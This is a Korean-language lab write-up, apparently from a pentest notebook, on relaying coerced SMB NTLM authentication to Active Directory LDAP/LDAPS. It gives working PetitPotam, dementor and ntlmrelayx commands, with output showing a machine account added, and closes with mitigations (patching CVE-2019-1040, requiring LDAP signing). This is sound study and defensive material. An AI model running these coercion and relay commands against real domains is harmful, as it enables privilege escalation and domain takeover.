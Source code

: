 # SMB to LDAP/S

강제 인증, LLMNR/NBT-NS 기반의 NTLM 릴레이 공격은 피해자 서버로부터 SMB 인증 트래픽을 받아 타겟 서버의 LDAP 서비스로 릴레이 한다. 이때 공격자는 액티브 디렉토리의 LDAP 정보 덤프, 컴퓨터 계정 추가, Delegation 등을 통한 권한 상승 공격을 진행할 수 있다.&#x20;

단, SMB to SMB 에 비해 SMB to LDAP(S) 는 필요 조건들이 더 많다. 따라서 webdav, mitm6, 혹은 wpad 릴레이를 통한 HTTP to LDAP(S) 가 더 자주 사용되는 편이다. 그러나 SMB to LDAP(S) 또한 공격에 성공할 경우 도메인 진입 혹은 도메인 장악이 가능하기 때문에 주의가 필요하다.&#x20;

### 조건&#x20;

* NTLMv2 SMB -> LDAP: 타겟이 CVE-2019-1040에 취약 + LDAP Signing - Enabled/Disabled (Required 면 불가능)&#x20;
* NTLMv2 SMB -> LDAPS:  타겟이 CVE-2019-1040에 취약 + LDAP Signing - Disabled (Enabled/Required 면 불가능)
* NTLMv1 SMB -> LDAP: 조건 없음, 가능. 타겟이 CVE-2019-1040에 취약하지 않더라도 `--remove-MIC` 로 MIC 필드 제거 가능.&#x20;
* NTLMv1 SMB -> LDAPS: 조건 없음, 가능. 타겟이 CVE-2019-1040에 취약하지 않더라도 `--remove-MIC` 로 MIC 필드 제거 가능.&#x20;



### NTLMv2 SMB -> LDAP(S)&#x20;

#### 트리거 - 강제 인증 - Petitpotam&#x20;

```
python3 PetitPotam.py -u '' -p '' 192.168.40.132 192.168.40.160
```

#### 트리거- LLMNR/NBT-NS 포이즈닝&#x20;

이론상 가능하지만 현재 테스트 랩에서는 불가능하다. 추후 더 연구해봐야겠다.&#x20;

#### 릴레이 - CVE-2019-1040에  취약할 경우

```
impacket-ntlmrelayx -t ldap://192.168.40.160 -smb2support --add-computer --no-dump --no-da --no-acl --no-validate-privs --remove-mic

[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.40.150, attacking target ldap://192.168.40.160
[*] Authenticating against ldap://192.168.40.160 as CHOI/DC01$ SUCCEED
[*] Adding new computer with username: UAZZYGGM$ and password: lEE_wdrh2JD7T!M result: OK
```



### NTLMv1 SMB -> LDAP(S)&#x20;

#### 트리거 - 강제 인증 - Print Spooler&#x20;

```
python3 dementor.py -u low -p 'Password123!' -d choi.local 192.168.40.132 192.168.40.150
```

#### 트리거 - LLMNR/NBT-NS 포이즈닝&#x20;

이론상 가능하지만 현재 테스트 랩에서는 불가능하다. 추후 더 연구해봐야겠다.&#x20;

#### 릴레이&#x20;

<pre><code>./ntlmrelayx.py -t ldap://192.168.40.160 -smb2support --no-dump --no-da --no-acl --no-validate-privs --remove-mic
<strong>
</strong><strong>[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.40.150, attacking target ldap://192.168.40.160
</strong>[*] Authenticating against ldap://192.168.40.160 as / SUCCEED</code></pre>



### 대응 방안&#x20;

1. NTLMv2 - CVE-2019-1040 관련된 패치를 진행한다. 이는 도메인 컨트롤러들의 기본적인 윈도우 패치만 실행하더라도 패치되는 취약점이다.&#x20;
2. NTLMv2 - LDAP Signing 을 Required 로 설정한다. GPO 를 이용하는 것이 좋다.&#x20;

`(Default Domain Controller Policy 혹은 GPO`) `> Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies >  Security Options > Domain controller: LDAP server signing requirement` - REQUIRED 로 설정&#x20;

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
